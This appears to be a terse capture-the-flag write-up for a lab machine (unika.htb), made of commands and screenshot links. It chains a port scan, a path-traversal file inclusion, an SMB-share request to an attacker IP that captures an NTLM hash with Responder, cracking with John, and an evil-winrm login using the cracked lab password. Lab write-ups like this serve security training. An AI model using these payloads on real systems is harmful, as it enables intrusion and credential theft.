# 1.Port Scan
ip=10.129.166.236
nmap -p- --min-rate=5000 -sV $ip



# 2.UNIKA.HTB Connect
`sudo vim /etc/hosts`




# 3.Directory Search



**http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts**


# 4.Responder
`sudo responder -I tun0`



## WEB Request 

**http://unika.htb/index.php?page=//10.10.16.8/testShare**

## Hash get


# 5.Password Crack
`John -wordlist=/home/kali/rockyou2 /home/kali/hash.txt`



# 6.Flag get
`evil-winrm -i $ip -u administrator -p badminton`   




